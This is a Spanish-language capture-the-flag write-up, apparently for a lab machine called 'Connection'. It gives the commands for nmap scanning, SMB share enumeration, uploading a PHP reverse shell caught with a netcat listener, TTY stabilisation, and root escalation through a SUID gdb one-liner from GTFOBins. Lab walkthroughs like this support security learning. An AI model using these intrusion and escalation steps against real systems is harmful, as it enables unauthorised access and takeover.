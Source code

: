 #Connection

-------
### Fase de Escaneo

Primero realizamos un arp-scan para saber la ip de la máquina objetivo.

```
sudo arp-scan -I eth0 --localnet
```

Realizamos un escaneo de los puertos abiertos de la máquina

```
sudo nmap -p- --open- -sS --min-rate 5000 -vvv -n -Pn <ip> -oG allPorts
```

Hacemos un escaneo de las versiones de los puertos abiertos.

```
nmap -sCV -p<puertos><ip> -oN Targeted  
```

---
### Fase de enumeración

Hacemos una enumeración al puerto 445 el cual corre el servicio de smb.

>[!tip]
>Las carpetas que contienen "$" están previamente configuradas, las que no necesitan contraseñas son las que no los tiene.

```
smbclient\\\<ip>\\<carpeta>
```
---
### Fase de Explotación

una vez ya adentro del servicio de smb, subiermos un archivo php malicioso, para que nos otorgue una bash interactiva. 

>[!info]
> Utilizamos esta web para obtener el codigo que nos regrese una bash a nuesta ip. [reverseshell.com](https://www.revshells.com/)

subimos el archivo malicioso.

```
smb/> put shell.php
```

nos colocamos en modo escucha por el puerto que asignamos en el archivo php por netcat.

```
nc -lvnp 4444
```
---
### Tratamiento de la TTY

```
script /dev/null -c bash
``````

```
ctrl + z
stty raw -echo; fg
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```
---
### User Flag

Obtuvimos la primera flag.

```
cat /home/connection/local.txt
```
---
### Escalada de Privilegio

Con este comando buscamos desde la raíz los binarios con permisos SUID y los errores le decimos que los redirija al /dev/null

```
find / -perm -4000 2>/dev/null
```

Encontramos un binario para explotar.

```
/usr/bin/gdb
```

>[!tip]
>podemos utilizar esta página para realizar la explotación [GTFOBins](https://gtfobins.github.io/)

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
---
### Flag Root

Obtenemos la flag root y máquina totalmente pwned.

```
cat /root/proof.txt
```

